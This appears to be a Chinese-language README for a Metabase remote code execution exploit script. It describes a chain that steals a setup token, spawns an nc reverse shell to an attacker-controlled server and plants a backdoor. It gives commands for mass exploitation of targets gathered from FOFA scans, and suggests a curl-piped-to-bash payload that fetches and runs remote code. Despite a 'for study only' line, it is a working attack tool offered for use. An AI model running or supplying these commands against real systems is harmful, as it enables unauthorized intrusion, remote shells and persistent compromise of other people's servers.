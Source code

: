 # metabase_exp
metabase rce
#仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门


获取token

python3 metabase_exp.py poc -u xxx.com

批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段

python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json



尝试nc反弹

python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口

nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了

python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口



尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行

python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -payload 你的payload




太菜了写的不是很好啊哈哈


我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
